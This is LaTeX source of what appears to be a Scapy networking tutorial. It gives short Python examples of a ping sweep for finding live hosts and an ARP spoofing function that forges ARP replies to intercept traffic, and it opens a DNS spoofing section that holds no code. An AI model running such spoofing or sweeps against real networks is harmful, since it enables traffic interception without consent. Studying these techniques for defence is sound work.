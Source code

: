 \documentclass[
  letterpaper,
  DIV=11,
  numbers=noendperiod]{scrreprt}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.68,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.13,0.47,0.30}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.13,0.47,0.30}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.07,0.07,0.07}{#1}}
\begin{document}
This example demonstrates how to perform a ping sweep to discover live
hosts on a network.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ ping\_sweep(network):}
\NormalTok{    ans, unans }\OperatorTok{=}\NormalTok{ sr(IP(dst}\OperatorTok{=}\NormalTok{network)}\OperatorTok{/}\NormalTok{ICMP(), timeout}\OperatorTok{=}\DecValTok{2}\NormalTok{)}
    \ControlFlowTok{for}\NormalTok{ snd, rcv }\KeywordTok{in}\NormalTok{ ans:}
        \BuiltInTok{print}\NormalTok{(}\SpecialStringTok{f"}\SpecialCharTok{\{}\NormalTok{rcv}\SpecialCharTok{.}\NormalTok{src}\SpecialCharTok{\}}\SpecialStringTok{ is alive"}\NormalTok{)}

\NormalTok{ping\_sweep(}\StringTok{"192.168.1.0/24"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\subsection{Example 2: ARP Spoofing}\label{example-2-arp-spoofing}

This example demonstrates how to perform ARP spoofing to intercept
network traffic.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ arp\_spoof(target\_ip, spoof\_ip):}
\NormalTok{    packet }\OperatorTok{=}\NormalTok{ ARP(op}\OperatorTok{=}\DecValTok{2}\NormalTok{, pdst}\OperatorTok{=}\NormalTok{target\_ip, hwdst}\OperatorTok{=}\StringTok{"ff:ff:ff:ff:ff:ff"}\NormalTok{, psrc}\OperatorTok{=}\NormalTok{spoof\_ip)}
\NormalTok{    send(packet, verbose}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

\NormalTok{arp\_spoof(}\StringTok{"192.168.1.100"}\NormalTok{, }\StringTok{"192.168.1.1"}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\subsection{Example 3: DNS Spoofing}\label{example-3-dns-spoofing}

This example demonstrates how to perform DNS spoofing to redirect DNS
requests.
\end{document}
